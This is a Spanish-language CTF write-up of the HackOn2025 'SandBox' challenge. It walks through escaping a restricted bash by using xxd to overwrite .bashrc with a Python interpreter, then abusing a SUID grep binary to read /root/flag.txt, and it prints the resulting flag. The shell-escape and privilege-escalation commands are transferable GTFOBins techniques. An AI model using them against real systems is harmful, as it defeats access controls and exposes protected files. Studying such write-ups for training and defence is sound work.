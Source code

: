 ```yaml
---
title: SandBox - HackOn2025
author: Kesero
description: Reto misc basado en escapar de una rbash y leer flag.txt
date: 2025-02-24 00:00:00 +0000
categories: [Writeups Competiciones Nacionales, Miscelánea N]
tags: [Misc, Misc - Rbash, Writeups, Dificultad - Media]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox/3.png
  lqip: 
  alt: 
comments: true
---
```


Autor del reto: `HugoBond`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Not even the dockerfile, just rawdogged like old times"

## Archivos

En reto, solo nos dan una conexión.

- `Servidor en remoto` : Conexión por ncat.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Nacionales_Writeups/2025/HackOn2025/Misc/SandBox).

## Entrando al reto.

Para entrar al entorno del reto, simplemente nos tenemos que conectar mediante `openssl` de la siguiente manera.

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

Una vez dentro, se nos desplegará una bash restringida como el usuario `paco`. Nuestro cometido será leer el archivo `flag.txt` el cual se encuentra dentro del directorio `/root`

## Solución

Este tipo de retos requiere tiempo y sobre todo de probar, probar y probar diferentes comandos para ir depurando posibles vías de ataque.

En este caso, la bash nos permite listar archivos mediante `ls` dentro de nuestra carpeta teníamos una carpeta `bin/` con los comandos que podíamos ejecutar los cuales son los siguientes.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ ls bin/

    echo  id  ls  ping  pwd  python  whoami  xxd

De todos estos comandos los que nos llama más la atención son `python` y `xxd` ya que con python podemos jugar de distintas formas para obtener una `bash` sin restricciones, pero la intrusión no viene de este modo, ya que el comando `python` está asociado a la ejecución del script `/opt/test.py` el cual imprime lo siguiente por consola.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ python

    You just lose THE GAME

Como tenemos capacidad de listar directorios con `ls`, podemos listar todo el contenido en el que paco tenga capacidad de lectura. Es en este momento en el que indagaremos por el sistema en busca de información que podamos utilizar a nuestro favor, como rutas de binarios, permisos asociados a los mismos, etc.

Además un truquele que podemos aplicar en estos casos, es que como tenemos el comando `echo`, podemos mostrar el contenido de archivos mediante el siguiente comando.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo $(>.profile)

    # ~/.profile: executed by the command interpreter for login shells. # This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login # exists. # see /usr/share/doc/bash/examples/startup-files for examples. # the files are located in the bash-doc package. # the default umask is set in /etc/profile; for setting the umask # for ssh logins, install and configure the libpam-umask package. #umask 022 # if running bash if [ -n "$BASH_VERSION" ]; then # include .bashrc if it exists if [ -f "$HOME/.bashrc" ]; then . "$HOME/.bashrc" fi fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/bin" ] ; then PATH="$HOME/bin:$PATH" fi # set PATH so it includes user's private bin if it exists if [ -d "$HOME/.local/bin" ] ; then PATH="$HOME/.local/bin:$PATH" fi

De esta forma podemos listar el contenido de todos los archivos si paco tiene permisos de lectura en ellos.

Llegados a este punto tenemos capacidad de listar directorios y de listar archivos, pero nos falta la capacidad de escribirlos.

Es en este punto donde el comando `xxd` adquiere gran importancia.

Si observamos en la página de `GTFoBins` el comando [xxd](https://gtfobins.github.io/gtfobins/xxd/), podemos escribir archivos y leer archivos (aunque este listado es menos intuitivo ya que parte lo hace en hexadecimal)

Podemos listar archivos mediante

    LFILE=file_to_read
    xxd "$LFILE" | xxd -r

Podemos escribir archivos mediante

    LFILE=file_to_write
    echo DATA | xxd | xxd -r - "$LFILE"

NOTA: Importante aclarar que la escritura se realiza al comienzo del archivo, por lo que si queremos escribir al final tendremos que copiar todo el contenido del mismo y luego nuestra cadena a introducir.

Llegados a este punto podemos salir de la `rbash` de distintos modos. El camino que seguí es que como tenemos capacidad de escritura en los archivos cuyo propietario sea `paco`, directamente podemos escribir en nuestra propia `.bashrc` para escapar de la bash.

Aquí se pueden aplicar varios métodos, podemos exportar el $PATH para que incluya rutas del sistema como /usr/bin (actualmente el usuario paco solo tiene en el path /home/paco/bin/), podemos incrustar comandos o abrirnos distintos entornos de ejecuciones como puede ser vim, nano, etc.

Lo que yo hice fue simplemente escribir en `.bashrc` el interprete de python libre restricciones el cual está alojado en `/usr/bin/python3.11`, de esta manera al salir de la bash y volver a conectarnos mediante `openssl`, se ejecutará el contenido dentro de  `.bashrc` y por ende se ejecutará el interprete de `python3.11`. Para ello.

    ┌──(paco@ac3d575b01fb)-[~]
    └─$ echo "exec /usr/bin/python3" | xxd | xxd -r - ".bashrc"

Al salir de la sesión y volver a conectarnos podremos ver que efectivamente, tenemos un interprete de python3.11.2

    ┌──(kesero㉿kali)-[~]
    └─$ openssl s_client -connect hackon-444ba26d30e4-sandbox-1.chals.io:443

    rbash: cannot set terminal process group (7): Inappropriate ioctl for device
    rbash: no job control in this shell
    Python 3.11.2 (main, Nov 30 2024, 21:22:50) [GCC 12.2.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>>

Llegados a este punto podemos ejecutar comandos en el sistema mediante `import os;`, pero seguimos sin tener permisos para leer el directorio `/root`, es por ello que entra el juego la `escalada de privilegios` para poder leer `/root/flag.txt`

Listando con `ls -la` los permisos de los binarios alojados en `/usr/bin/` podemos listar los privilegios `SUID` que tiene el sistema y observamos que hay varios binarios que tiene permisos `SUID` cuyo propietario es `root`, por lo que podemos manipularlos para ejecutar dicho binario con máximos privilegios.

En este punto, yo utilicé el binario `grep` ya que cuenta con permisos `SUID` y nuevamente si utilizamos la página de `GTFoBins` podemos escalar privilegios con el comando [grep](https://gtfobins.github.io/gtfobins/grep/) si este cuenta con el permiso asociado.

    LFILE=file_to_read
    ./grep '' $LFILE

Como podemos ejecutar comandos deste el intérprete de python, utilizamos `grep` como medio de escalada de privilegios y a su vez para leer el archivo `flag.txt` para observar finalmente la flag.

    >>> import os
    >>> os.system("grep '' " + "/root/flag.txt")

    HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}


## Flag

`HackOn{D1sp4ro_4l_41r3_y_4_donde_ca1g4,_l4_pen4_deb4jo_del_Stone_Isl4nd}`